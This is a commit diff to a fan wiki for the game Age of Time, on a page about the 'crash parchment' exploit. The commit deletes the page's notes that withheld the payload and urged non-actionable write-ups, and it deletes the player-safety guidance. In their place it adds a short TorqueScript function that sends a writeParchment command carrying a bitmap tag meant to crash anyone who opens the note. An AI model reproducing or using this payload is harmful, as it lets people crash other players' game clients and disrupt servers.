

Before and after one commit to skylord123/ageoftime-wiki, an MkDocs documentation site: the page built from docs/reference/exploits/crash-parchment.md, in a window 1280 px wide and 1170 px high. Shown: the whole window at 89% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update crash parchment exploit

````diff
--- a/docs/reference/exploits/crash-parchment.md
+++ b/docs/reference/exploits/crash-parchment.md
@@ -11,21 +11,12 @@ try to read the parchment.
 
 ## Notes
 
-This exploit abuses malformed parchment content rather than normal gameplay.
-For safety, the wiki does **not** reproduce the exploit payload or the script
-used to mass-create these parchments.
+### Code
 
-If you are documenting or discussing this bug elsewhere, keep the write-up
-non-actionable:
-
-- Describe the impact and player risk.
-- Credit the discovery to Dark Silence.
-- Avoid posting the exact payload string or automation code.
-
-## Player guidance
-
-- Be cautious around anonymous or suspicious parchments.
-- If a crash parchment is being used on a server, warn other players not to
-  open unknown notes.
-- Preserve screenshots, chat context, or other evidence for moderation or
-  historical documentation.
+```torquescript
+// put parchment in quickslot 9 adnd run this function
+function createCrashParchments()
+{
+   commandToServer('writeParchment', $quickslot9.serverid, "Anonymous's Note", "<bitmap:base/data/fx/lightning/lightning.dml>");
+}
+```
````
